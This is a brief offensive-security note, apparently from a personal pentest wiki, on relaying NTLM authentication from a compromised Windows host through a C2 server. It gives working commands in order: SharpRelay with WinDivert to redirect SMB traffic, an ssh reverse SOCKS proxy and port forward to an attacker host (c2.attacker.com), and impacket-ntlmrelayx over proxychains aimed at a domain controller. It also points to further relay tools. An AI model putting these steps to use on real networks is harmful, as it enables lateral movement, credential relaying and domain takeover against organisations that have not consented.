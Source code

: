 ```yaml
---
title: NTLM Relaying on Windows
---
```


[[notes/ad/ntlm-relaying]] on a Windows computer over a C2.

Before you can begin you have to gain local admin privileges.

Windows computer: Redirect port 445 to 8445 with the WinDivert kernel driver and [SharpRelay](https://github.com/pkb1s/sharprelay).

~~~ bat
.\SharpRelay.exe smbredir %cd%\WinDivert.sys 445 8445
~~~

Windows computer: Establish a reverse SOCKS proxy to your C2 server and forward `0.0.0.0:8445` to port 445 on your C2 server.

~~~ bat
ssh -R 127.0.0.1:1080 -L 0.0.0.0:8445:127.0.0.1:445 proxy@c2.attacker.com
~~~

C2 server: Start `impacket-ntlmrelayx` over the SOCKS proxy so that traffic flows back into the victim network.

~~~ bash
proxychains impacket-ntlmrelayx -t smb://dc01.corp.local -smb2support
~~~

Windows computer: Coerce NTLM authentication to this machine.

Untested tools:

- [lsarelayx](https://github.com/CCob/lsarelayx), registers LSA authentication provider

References:

- [NTLM relaying via Cobalt Strike ](https://web.archive.org/web/20220922125148/https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)
